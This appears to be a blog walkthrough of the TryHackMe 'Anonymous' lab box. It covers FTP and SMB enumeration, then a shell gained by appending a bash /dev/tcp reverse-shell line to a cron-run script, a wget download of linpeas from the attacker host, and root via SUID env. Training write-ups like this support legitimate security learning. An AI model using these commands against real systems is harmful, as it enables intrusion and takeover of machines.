 ```yaml
---
layout: post
title: " Anonymous - TryHackMe"
date: 2020-07-14
excerpt: "Walkthrough for Anonymous on TryHackme"
tags: [Anonymous, TryHackMe, privilege escalation, script modification]
comments: false
---
```


Anonymous is a medium difficulty box on [TryHackMe](https://www.tryhackme.com). Below is a walkthrough of the steps involved to achieve root on this box.

First, let's scan the box with nmap with **nmap -sC -sV -T4 [machine ip]**. The results of this scan are as shown below.

![Anonymous nmap](/assets/img/Anonymous1.png)

It appears that we have ftp (21) open with anonymous access allowed, ssh (22), and smb (139/445) open. 

This are a total of 4 open ports, the answer to **Question 1**. FTP is running on port 21, the answer to **Question 2**. Ports 139/445 are running smb, the answer to **Question 3**. 

Since we can see that ftp is open anonymously, let's login and take a look with **ftp [machine ip]**. When prompted for the username/password, use **anonymous** for both of them. Once logged in, we can run **ls** to list the directory contents.

![Anonymous ftp connect](/assets/img/Anonymous2.png)

Let's use **cd scripts** to get into the script directory and then type **ls** to list it's contents. Three files are present. Let's run **mget \*** to download these files to view them locally.

![Anonymous ftp scripts directory](/assets/img/Anonymous3.png)

Let's use **bye** to close the ftp session and then take a look at these files. Let's start with **cat clean.sh**. This appears to be a script that removes everything in the /tmp directory and then logs it to **/var/ftp/scripts/removed_files.log**.

![Anonymous cat clean.sh](/assets/img/Anonymous4.png)

Next, let's take a look at removed_files.log with **cat removed_files.log**. It doesn't appear that there's anything useful in this, as it is the same log entry repeated several times.

![Anonymous cat removed_files.log](/assets/img/Anonymous5.png)

The last file, which is viewed with **cat to_do.txt**, states that anonymous logins should be disabled because they aren't safe.

![Anonymous cat to_do.txt](/assets/img/Anonymous6.png)

This is likely a hint that anonymous access is available in multiple places. Let's try to enumerate the smb shares next with **smbclient -L \\\\\\\\[machine ip]\\\\ **. This will return 3 shares as shown above.

![Anonymous list smb shares smbclient](/assets/img/Anonymous7.png)

The smb share **pics** is the answer to Question 4. Let's try to connect to pics anonymously with **smbclient \\\\\\\\[machine ip]\\\\pics -U ""**. We are also able to connect anonymously and after running **ls**, we see that there are 2 pictures in this folder. Let's grab them both with **mget \***.

![Anonymous smbclient anonymous](/assets/img/Anonymous8.png)

Let's take a look at these two pictures. There's nothing suspicious on the pictures themselves, as they are just pictures of corgis. However, .jpg/.jpeg files can be used for steganography. Let's see if there's any hidden files inside. I ran stegcracker for a few minutes on both of these pictures and was not able to crack the password or confirm anything was hidden inside.

Let's go back to enumeration using rpcclient. Let's run **rpcclient [machine ip] -U ""**. Once connected, let's run **enumdomusers** to get the users on this victim host (namelessone) followed by **queryuser 0x3eb** and **getdompwinfo**.

![Anonymous rpcclient](/assets/img/Anonymous9.png)

While useful info, unless we wanted to spend a long time brute forcing the password, there had to be a simpler way to get in. At this point, I logged back in anonymously to the ftp server and noticed that we have read/write/execute on **clean.sh**. I wonder what would happen if we put in a reverse shell to run inside that script? On our local machine, let's open the **clean.sh** file that we downloaded earlier and modify it before we reupload it. Let's add in **bash -i >& /dev/tcp/[your attacker ip]/8080 0>&1** and save the file.

![Anonymous modify clean.sh](/assets/img/Anonymous10.png)

Next, in another terminal window on our attacker pc, run **nc -nvlp 8080** to open a listener on port 8080 that you specified in the clean.sh file above.

![Anonymous nc listener](/assets/img/Anonymous11.png)

Next, let's reconnect with the anonymous ftp site, go into the scripts directory and upload our modified clean.sh file.

![Anonymous clean.sh upload](/assets/img/Anonymous12.png)

Now, we just wait for a connection, as that script appeared to be ran as a cron job. Within a couple of minutes, we now have a shell.

![Anonymous reverse shell](/assets/img/Anonymous13.png)

We are running as namelessone, and after running **pwd** we can see we are in that user's home directory. We can run **ls** and we will see the user.txt file in this directory. **cat user.txt** will get you the answer to **Question 5**.

![Anonymous user.txt](/assets/img/Anonymous14.png)

Let's upgrade our shell so we can run some other commands that require a TTY. Let's upgrade with **python -c 'import pty; pty.spawn("/bin/sh")'**. Attempting to run **sudo -l** requires a password, which we do not have for the user we currently have access to. Let's copy linpeas over to do some enumeration.

First, on our attacker pc, run **python3 -m http.server** in the directory that linepeas.sh is in. Next, on the victim, run **wget http://[attacker ip]:8000/linpeas.sh**, and it should save in namelessone's home directory. Next, run **chmod 777 linpeas.sh** to make the script executable.

![Anonymous wget linpeas.sh](/assets/img/Anonymous15.png)

Now lets run this with **./linpeas.sh**. While this puts out a lot of information, there is a SUID file that it notices, **/usr/bin/env**.

![Anonymous SUID](/assets/img/Anonymous16.png)

[GTFOBins](https://gtfobins.github.io/) is a great site to look up ways to exploit executables in Linux. env can be used for privilege escalation with **./env /bin/sh -p**. Now, if we run **whoami** we are the root user! We can now run **cd /root** followed by **ls**. root.txt is in this file, so let's run **cat root.txt** to get the root flag.

![Anonymous root.txt](/assets/img/Anonymous17.png)